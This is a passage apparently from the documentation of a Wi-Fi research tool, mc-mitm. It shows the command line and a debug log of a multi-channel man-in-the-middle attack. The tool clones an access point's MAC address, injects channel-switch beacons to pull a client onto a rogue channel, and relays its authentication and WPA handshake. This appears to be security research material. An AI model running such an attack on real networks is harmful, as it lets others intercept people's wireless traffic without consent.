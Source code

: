 Notice that the `--debug` parameter is used to increase debug output:

	(venv) root@mathy-VirtualBox:/home/mathy/mc-mitm/research# ./mc-mitm.py wlan2 wlan3 testnetwork --target 02:00:00:00:01:00 --continuous-csa --debug
	[13:32:52] Note: remember to disable Wi-Fi in your network manager so it doesn't interfere with this script
	[13:32:52] Note: keep >1 meter between interfaces. Else packet delivery is unreliable & target may disconnect
	[13:32:53] Monitor mode: using wlan2 on real channel and wlan3mon on rogue channel.
	[13:32:53] Target network 02:00:00:00:00:00 detected on channel 1
	[13:32:53] Will use wlan3 to create rogue AP on channel 11
	[13:32:53] Setting MAC address of wlan3 to 02:00:00:00:00:00
	[13:32:53] Attaching filter to wlan2: (wlan type data or wlan type mgt) and ((wlan addr1 02:00:00:00:00:00) or (wlan addr2 02:00:00:00:00:00) or (wlan addr1 02:00:00:00:01:00) or (wlan addr2 02:00:00:00:01:00))
	[13:32:53] Attaching filter to wlan3mon: (wlan type data or wlan type mgt) and ((wlan addr1 02:00:00:00:00:00) or (wlan addr2 02:00:00:00:00:00) or (wlan addr1 02:00:00:00:01:00) or (wlan addr2 02:00:00:00:01:00))
	[13:32:53] Giving the rogue hostapd one second to initialize ...
	[13:32:54] Injected 4 CSA beacon pairs (moving stations to channel 11)
	[13:33:00] Real channel : 02:00:00:00:01:00 -> ff:ff:ff:ff:ff:ff: ProbeReq(seq=398)
	[13:33:00] Real channel : 02:00:00:00:00:00 -> 02:00:00:00:01:00: ProbeResp(seq=39)
	[13:33:00] Rogue channel: 02:00:00:00:01:00 -> ff:ff:ff:ff:ff:ff: ProbeReq(seq=408)
	[13:33:03] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: Auth(seq=409, status=0) -- MitM'ing
		   Client 02:00:00:00:01:00 moved to state GotMitm
		   Established MitM position against client 02:00:00:00:01:00
		   Sending fake auth to rouge AP to register client
	[13:33:03] Sent frame to hostapd: Auth(seq=0, status=0)
	[13:33:03] Real channel : 02:00:00:00:00:00 -> 02:00:00:00:01:00: Auth(seq=40, status=0) -- MitM'ing
	[13:33:03] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: AssoReq(seq=410) -- MitM'ing
	[13:33:03] Sent frame to hostapd: AssoReq(seq=410)
	[13:33:03] Real channel : 02:00:00:00:00:00 -> 02:00:00:00:01:00: AssoResp(seq=41, status=0) -- MitM'ing
	[13:33:03] Real channel : 02:00:00:00:00:00 -> 02:00:00:00:01:00: EAPOL-Msg1(seq=0, replay=1) -- MitM'ing
	[13:33:03] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EAPOL-Msg2(seq=0, replay=1) -- MitM'ing
	[13:33:04] Real channel : 02:00:00:00:00:00 -> 02:00:00:00:01:00: EAPOL-Msg3(seq=1, replay=2) -- MitM'ing
	[13:33:04] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EAPOL-Msg4(seq=1, replay=2) -- MitM'ing
	[13:33:04] Rogue hostapd: nl80211: sta_remove -> DEL_STATION wlan3 02:00:00:00:01:00 --> -2 (No such file or directory)
	[13:33:04] Rogue hostapd: nl80211: Add STA 02:00:00:00:01:00
	[13:33:04] Rogue hostapd: send_auth_reply: not sending own authentication reply
	[13:33:04] Rogue hostapd: send_auth_reply: not sending own authentication reply
	[13:33:04] Rogue hostapd: send_assoc_resp: not sending association reply (status=0)
	[13:33:04] Rogue hostapd: __wpa_send_eapol: not sending EAPOL frame
	[13:33:04] Rogue hostapd: nl80211: sta_remove -> DEL_STATION wlan3 02:00:00:00:01:00 --> 0 (Success)
	[13:33:04] Rogue hostapd: nl80211: Add STA 02:00:00:00:01:00
	[13:33:04] Rogue hostapd: send_assoc_resp: not sending association reply (status=0)
	[13:33:04] Rogue hostapd: __wpa_send_eapol: not sending EAPOL frame
	[13:33:04] Rogue hostapd: wpa_receive: Igning all EAPOL frames
